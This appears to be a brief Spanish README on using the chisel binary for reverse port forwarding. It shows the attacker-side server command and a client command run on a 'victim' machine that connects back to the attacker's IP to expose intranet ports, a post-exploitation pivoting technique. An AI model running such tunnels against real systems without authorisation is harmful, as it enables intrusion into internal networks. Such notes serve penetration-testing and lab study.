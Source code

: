 # chisel
# Binarios de chisel -> https://github.com/jpillora/chisel](https://github.com/jpillora/chisel/releases
Con este binario de chisel para  linux x64 podemos realizar un port forwarding desde una maquina a la que tengamos acceso, redireccionando los puertos y pudiendo acceder a su intranet desde nuestra maquina local
El binario no necesita compilacion ni instalacion, es Plug&Play. Para establecer un port forwarding seguiremos los siguientes comandos.

Maquina local(host):

    ./chisel server -p [PUERTO] --reverse
  
Maquina remota(victim)>

    .chisel client [IP_HOST]:[PUERTO_HOST] R:[PUERTO_LOCAL_REDIRECCION]:[IP_VICTIMA_INTRANET]:[PUERTO_INTRANET]
  
  
Tanto la ip como el puerto de la victima dependeran de la maquina, pero al tratarse de puertos locales y que no son visibles desde fuera,
se encontraran en localhost/127.0.0.1 y el puerto dependera de cada maquina. 

Se pueden ver los puertos con:

    netstat -tlnp 
